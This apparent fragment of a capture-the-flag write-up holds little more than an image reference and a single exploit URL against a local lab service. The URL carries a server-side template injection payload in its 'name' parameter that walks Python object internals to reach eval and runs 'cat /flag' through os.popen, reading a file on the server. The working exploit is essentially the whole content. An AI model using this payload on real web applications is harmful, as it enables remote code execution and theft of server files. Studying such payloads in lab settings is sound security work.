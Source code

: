 http://127.0.0.1:32771/?name={{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
